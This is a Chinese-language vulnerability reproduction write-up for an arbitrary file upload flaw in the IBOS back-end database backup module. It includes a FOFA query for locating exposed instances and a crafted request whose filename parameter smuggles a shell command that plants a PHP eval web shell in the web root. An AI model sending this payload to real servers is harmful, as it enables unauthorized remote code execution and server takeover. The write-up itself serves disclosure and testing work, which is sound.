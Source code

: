 # IBOS 数据库模块 任意文件上传漏洞

## 漏洞描述

IBOS 后台数据库模块 存在任意文件上传漏洞，攻击者进入后台后可以上传恶意文件控制服务器

## 漏洞影响

> [!NOTE]
>
> IBOS < 4.5.5

## FOFA

> [!NOTE]
>
> body="IBOS" && body="login-panel"

## 漏洞复现

登录页面如下

```
http://xxx.xxx.xxx.xxx/?r=dashboard/default/login
```

![](http://wikioss.peiqi.tech/vuln/IBOS-1.PNG)

找到数据库备份模块

![](http://wikioss.peiqi.tech/vuln/ibos-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

提交并抓包

![](http://wikioss.peiqi.tech/vuln/ibos-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

修改filename参数发送包会上传peiqi.php文件到根目录

```
backuptype=all&custom_enabled=1&method=shell&sizelimit=2048&extendins=0&sqlcompat=MYSQL41&sqlcharset=utf8&usehex=0&usezip=0&filename=peiqi%26echo "<?php eval($_REQUEST[peiqi]);?>">peiqi%PATHEXT:~0,1%php%26peiqi&dbSubmit=1
```

![](http://wikioss.peiqi.tech/vuln/ibos-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)